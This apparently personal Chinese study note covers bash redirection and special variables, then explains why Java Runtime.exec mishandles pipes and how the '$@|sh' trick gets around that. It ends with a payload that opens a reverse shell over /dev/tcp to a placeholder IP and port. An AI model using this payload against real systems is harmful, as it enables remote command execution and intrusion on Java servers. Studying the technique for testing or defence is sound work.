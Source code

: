 ## bash基础

### 重定向

* `>`  重定向到文件
* `>&`  重定向到文件描述符
* &>file  `1>file 2>file`或 `>file 2>&1`
* `>>`   以追加方式重定向

```bash
2>1     #stderr重定向到当前文件夹的1文件
2>&1    #stderr重定向到stdout
&> file #stderr和stdout重定向到file
1>file 2>file  #同上
>file 2>&1  #同上
```

其中

```bash
ls xxx > file 2>&1
```

其实是这样工作的

```
stdin --->  ls xxx  -----------------> stdout ---> file
                   |---> stderr --^
```

`>>`不存在`>>&`的用法，因此如果想以追加方式输入file，应该

```bash
ls xxx >> file 2>&1
```

### sh

#### sh -c

```
sh -c "command"
```

```
sh -c 'command'  x1 x2 x3
```

x1是脚本名称，x2 x3是参数

### 特殊变量

* `$0`  脚本文件名
* `$1~$n`  第1~n个参数
* `$@`  参数列表，若调用`"$@"`，则返回`"$1 $2 ... $n"`
* `$*`  参数列表，若调用`"$*"`，则返回`"$1" "$2" ... "$n"`
* `$#`  参数个数
* `$$`  shell的pid
* `$!`  shell最后运行的process的pid
* `$?`  最后运行的process的结束代码
* `$-`  使用set命令设定的flag

## java

### java Runtime.exec

https://www.anquanke.com/post/id/159554   文章

http://jackson-t.ca/runtime-exec-payloads.html  payload测试

#### Runtime.exec

```java
public Process exec(String command) throws IOException;
public Process exec(String[] cmdarray) throws IOException;
public Process exec(String[] cmdarray, String[] envp) throws IOException;
public Process exec(String[] cmdarray, String[] envp, File dir) throws IOException;
public Process exec(String command, String[] envp) throws IOException;
public Process exec(String command, String[] envp, File dir) throws IOException;
```

作用依次如下

* 在单独的进程中执行指定的字符串命令
* 在单独的进程中执行指定命令和变量
* 在指定环境和工作目录的独立进程中执行指定的命令和变量
* 在指定环境的单独进程中执行指定的字符串命令
* 在指定环境和工作目录的独立进程中执行指定的字符串命令

#### exec(String command)

直接一个进程执行command字符串的命令

此时若有以下两条指令

```bash
ls -l \opt
ls -l \opt | grep xx
```

执行结果一样，因为`|`只有在shell环境下才能被识别，而fork不能识别。类似的情况出现于`< >`等重定向指令

##### exec的处理

exec根据空格区分参数，因此刚刚第二条指令相当于用参数`-l` `\opt` `|` `grep` `xx` 调用exec

##### 使用sh -c

试图使用

```bash
sh -c "ls -l \opt | grep xx"
```

但因为exec用空格处理参数，因此`""`不会被shell整体接收，而是当做不同的参数

```bash
sh -c ls -l \opt | grep xx
```

显然不行，因为 sh -c 使用空格区分不同命令，此种做法相当于只执行了ls命令

##### 使用 `$@|sh`

sh有一种使用方法，注意这里`''`是必须的

```bash
sh -c 'command'  x1 x2 x3
```

x1是脚本名称，x2 x3是参数

则有如下用法

```bash
sh -c '$@|sh' xx echo ls -l /opt | grep xx
```

这里注意

* $@   参数整体，以空格分离
* $#   参数个数

所以相当于执行

```bash
sh -c 'echo "ls -l /opt | grep xx" | sh'
```

等价于

```bash
echo "ls -l /opt | grep xx" | sh
```

#### shell

```bash
sh -c '$@|sh' xx echo sh -i >& /dev/tcp/(ip)/(port) 0>&1
```

